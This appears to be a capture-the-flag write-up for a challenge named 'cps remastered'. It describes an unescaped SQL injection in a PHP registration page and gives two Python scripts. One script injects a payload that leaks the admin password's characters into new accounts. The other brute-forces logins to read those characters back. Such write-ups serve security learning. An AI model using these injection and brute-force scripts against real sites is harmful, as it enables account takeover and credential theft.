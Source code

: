 # cps remastered

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/99d601dd-3e2d-4616-a727-452e7f2daa03)

## solution

one thing that was annoying about this challenge was setting up a local copy of the php server, which took way longer than it should've

if we take a look at register.php, we can see that the SQL command is not being escaped correctly using `bind_param` like it is everywhere else, so we can do SQL injection

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a7bd86e4-48dc-40b1-9c1a-d3e68b704075)

share.py
```py
ip = "https://cps.amt.rs/"
```

create.py
```py
import requests
from share import *
from _thread import start_new_thread
from time import sleep


def register(_2, uname, psswd):
    userdata = {"username": uname, "password": psswd}
    requests.post(ip + "register.php", data=userdata)
    print(_2+1, "created")


for _ in range(100):
    sleep(0.2)
    pl = f"jonas{_+1}', HEX(SUBSTR((SELECT password FROM (SELECT * FROM users)tmpp WHERE username LIKE 'admin'), {_+1}, 1))); -- q"
    start_new_thread(register, (_, pl, "a"))
sleep(100)
```

here, we create an account called `jonas<number>` for each character the password of the admin, and the password to the jonas account is hex encoded of the character, so `a` -> `61`

now, we can try to login as each account 256 times with the hex code for the character as the password

crack.py
```py
import requests
from _thread import start_new_thread
from share import *
from time import sleep


def login(uname, psswd):
    userdata = {"username": uname, "password": psswd}
    if "You are now logged in" in requests.post(ip + "login.php", data=userdata).text:
        if psswd == "":
            print(uname, "empty password btw <<<<<<")
        else:
            print()
            print(uname, chr(int(psswd, 16)), "GOOD <<<<<<")
            print()
    else:
        # print(uname, psswd, "fail")
        pass


index = 1
while True:
    charset = "abcdef0123456789"
    for char in charset:
        for char2 in charset:
            start_new_thread(login, (f"jonas{index}", char + char2))
            sleep(0.03)
    sleep(3)
    index += 1
```

then, we get the flag char by char
